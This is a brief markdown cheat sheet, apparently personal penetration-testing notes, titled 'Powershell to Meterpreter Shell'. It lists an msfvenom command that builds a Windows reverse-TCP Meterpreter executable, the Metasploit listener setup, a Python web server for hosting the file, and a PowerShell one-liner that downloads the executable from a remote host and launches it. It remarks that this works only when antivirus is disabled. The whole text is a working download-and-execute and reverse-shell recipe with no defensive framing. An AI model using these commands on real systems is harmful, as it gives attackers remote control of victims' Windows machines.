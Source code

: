 ## Powershell to Meterpreter Shell
- only if AV is disabled

- **Msfvenom**
  -  `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.10.4 LPORT=5555 -f exe > sh.exe`
  -  set up metasploit listener
  -  msfconsole
  -  search exploit/multi/handler
  -  use 6
  -  set payload windows/meterpreter/reverse_tcp
  -  set lport (match what is in payload)
  -  set lhost
  -  run
  -  host webserver where file located
    - `python -m SimpleHTTPServer 80`   

- **Powershell**
  - from current powershell
  - `powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.0.0.10:80/shell-name.exe', 'shell-name.exe')"`
    - Example:
      - `powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.0.0.10:80/shell.exe', 'shell.exe')"`
  - dir to make sure in there
  - `Start-Process "shell-name.exe"`
